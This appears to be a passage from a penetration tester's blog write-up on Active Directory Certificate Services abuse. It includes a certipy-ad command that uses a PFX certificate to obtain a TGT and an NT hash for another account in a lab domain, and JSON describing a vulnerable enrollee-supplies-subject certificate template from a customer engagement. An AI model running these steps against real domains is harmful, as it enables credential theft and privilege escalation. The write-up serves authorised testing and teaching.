 ```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'otheradmin.ccache'
[*] Trying to retrieve NT hash for 'otheradmin'
[*] Got hash for 'otheradmin@testcorp.local': aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71
```
So still no `KDC_ERROR_CLIENT_NOT_TRUSTED` error. I read [this blog post](https://sensepost.com/blog/2025/diving-into-ad-cs-exploring-some-common-error-messages), which describes that:

>Another possibility I encountered during a recent internal assessment is when you have multiple KDCs and different CAs—think of different forest trusts across a large organization. A DC might not trust all CAs. For example, a DC might be configured to only trust its local domain’s CA and not all other CAs across the other forests. As such, you can issue a valid certificate but only authenticate to a few local DCs.

The blog continues by making a client authentication certification issued by his own CA. This results in the `KDC_ERROR_CLIENT_NOT_TRUSTED` error. Another possibility is a sync issue:

>DCs sync the trusted CAs periodically from Active Directory and store their thumbprint in a local registry key at HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\EnterpriseCertificates\NTAuth\Certificates. If the synchronization fails, the KDC might hold a different collection of trusted CAs. This mismatch might account for the “client not trusted” error message.

It continues by adding its own CA certificate to the CA container. But that is not realistic in our case, because this would require an AD CS container in a child-domain. However, if you ever encounter such a case, there is a tool called [AD-CS-Forest-Exploiter](https://github.com/MWR-CyberSec/AD-CS-Forest-Exploiter) that does exactly that.

So, looking back at the pentest we encountered, this environment had 4 CA's setup according to Certipy's output:

```json
"Certificate Authorities": [
    "SUB06",
    "SUB05",
    "CUSTOMER-Root-CA",
    "CA-CUSTOMER"
]
```

However, the vulnerable certificate template is only issued by the `SUB05` CA:

```json
"Properties": {
"name": "VULN-TEMPLATE@CUSTOMER",
"highvalue": true,
"Template Name": "VULN-TEMPLATE",
"Display Name": "VULN-TEMPLATE",
"Certificate Authorities": [
    "SUB05"
],
"Enabled": true,
"Client Authentication": true,
"Enrollment Agent": false,
"Any Purpose": false,
"Enrollee Supplies Subject": true,
"Certificate Name Flag": [
    "EnrolleeSuppliesSubject"
],
"Enrollment Flag": [
```